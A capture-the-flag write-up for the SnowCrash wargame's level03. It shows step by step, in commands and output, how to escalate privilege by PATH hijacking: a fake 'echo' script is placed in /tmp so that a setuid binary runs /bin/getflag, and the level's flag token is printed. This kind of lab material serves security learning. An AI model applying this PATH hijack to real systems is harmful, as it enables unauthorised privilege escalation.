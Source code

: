  # 1st Step
```
level03@SnowCrash:~$ ./level03
Exploit me
level03@SnowCrash:~$ strings level03 | grep "Exploit me"
/usr/bin/env echo Exploit me
level03@SnowCrash:~$
```  
As we can see we have to exploit the command echo  
The followings steps is thank to this [help](https://www.hackingarticles.in/linux-privilege-escalation-using-path-variable/) at the method 4:  
```
level03@SnowCrash:~$ cd /tmp
level03@SnowCrash:/tmp$ echo '/bin/getflag' > echo
level03@SnowCrash:/tmp$ chmod 777 echo
level03@SnowCrash:/tmp$ ls -l echo
-rwxrwxrwx 1 level03 level03 13 Mar 11 23:37 echo
level03@SnowCrash:/tmp$ export PATH=/tmp:$PATH
level03@SnowCrash:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```  

# 2nd Step
Now we can re-execute `level03`
```
level03@SnowCrash:~$ ./level03
Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
level03@SnowCrash:~$ su level04
Password:
level04@SnowCrash:~$
```  
Level03 passed !  
  
*Useful website: [PATH](https://www.commentcamarche.net/faq/3585-bash-la-variable-d-environnement-path)*